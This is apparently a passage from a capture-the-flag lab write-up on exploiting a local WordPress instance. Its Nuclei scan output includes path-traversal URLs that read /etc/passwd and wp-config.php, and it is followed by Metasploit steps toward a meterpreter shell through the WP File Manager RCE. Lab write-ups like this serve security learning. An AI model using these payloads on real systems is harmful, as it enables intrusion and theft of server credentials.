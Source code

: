We can use [Nuclei](../../3%20-%20Tags/Hacking%20Tools/Nuclei.md) to scan the target for vulnerabilities :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/BadByte]
└─$ nuclei -u http://127.0.0.1:8080

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.4.6

                projectdiscovery.io

'[CVE-2020-25213]' [http] [critical] http://127.0.0.1:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php

'[CVE-2020-11738]' [http] [high] http://127.0.0.1:8080/wp-admin/admin-ajax.php?action=duplicator_download&file=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

'[CVE-2020-11738]' [http] [high] http://127.0.0.1:8080/wp-admin/admin-ajax.php?action=duplicator_download&file=%2F..%2Fwp-config.php

[metatag-cms] [http] [info] http://127.0.0.1:8080 ["WordPress 5.3.2"]
[wordpress-theme-detect:twentytwentyone] [http] [info] http://127.0.0.1:8080
[addeventlistener-detect] [http] [info] http://127.0.0.1:8080
[apache-detect] [http] [info] http://127.0.0.1:8080 ["Apache/2.4.41 (Ubuntu)"]
[wordpress-login] [http] [info] http://127.0.0.1:8080/wp-login.php
[apache-server-status] [http] [low] http://127.0.0.1:8080/server-status
[wp-license-file] [http] [info] http://127.0.0.1:8080/license.txt
[wordpress-detect:version_by_css] [http] [info] http://127.0.0.1:8080/wp-admin/install.php ["5.3.2"]
[wordpress-readme-file] [http] [info] http://127.0.0.1:8080/readme.html

```

[CVE-2020-11738](../../3%20-%20Tags/CVEs/CVE-2020-11738.md)    Directory Traversal Vulnerability

[CVE-2020-25213](../../3%20-%20Tags/CVEs/CVE-2020-25213.md)    RCE  

## Metasploit 

We use [Metasploit](../../3%20-%20Tags/Hacking%20Tools/Metasploit.md) to search and set the [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) and run it.

You have to set RHOSTS as 127.0.0.1 ,rport as 8080 , LHOST as your tun0 IP and run the exploit. If everything is fine, you will be prompted with the meterpreter session.

```bash
msf6 > search cve-2020-25213                                                                                                                                                            
                                                                                                                                                                                          
Matching Modules                                                                                                                                                                          
================                                                                                                                                                                          
                                                                                                                                                                                          
   #  Name                                    Disclosure Date  Rank    Check  Description                                                                                                 
   -  ----                                    ---------------  ----    -----  -----------                                                                                                 
   0  exploit/multi/http/wp_file_manager_rce  2020-09-09       normal  Yes    WordPress File Manager Unauthenticated Remote Code Execution                                                
                                                                                                                                                                                          
                                                                                                                                                                                          
```